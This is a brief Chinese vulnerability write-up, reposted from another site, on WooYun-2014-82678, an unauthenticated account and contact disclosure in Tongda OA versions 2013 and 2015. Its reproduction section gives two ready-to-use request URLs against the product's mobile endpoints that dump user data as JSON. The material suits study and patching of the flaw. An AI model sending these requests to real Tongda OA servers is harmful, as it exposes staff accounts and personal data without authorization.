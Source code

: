 # （WooYun-2014-82678）通达oa未授权获取帐号

> 原文：[https://www.zhihuifly.com/t/topic/3332](https://www.zhihuifly.com/t/topic/3332)

# （WooYun-2014-82678）通达oa 未授权获取帐号

## 一、漏洞简介

无需登录，即可获取所有信息

## 二、漏洞影响

2013、2015版本

## 三、复现过程

POC:

```
http://0-sec.org/mobile/inc/get_contactlist.php?P=1&KWORD=%&isuser_info=3 
```

```
http://0-sec.org/mobile/user_info/data.php?P=1&ATYPE=getUserInfo&Q_ID=50 
```

将返回的json进行解码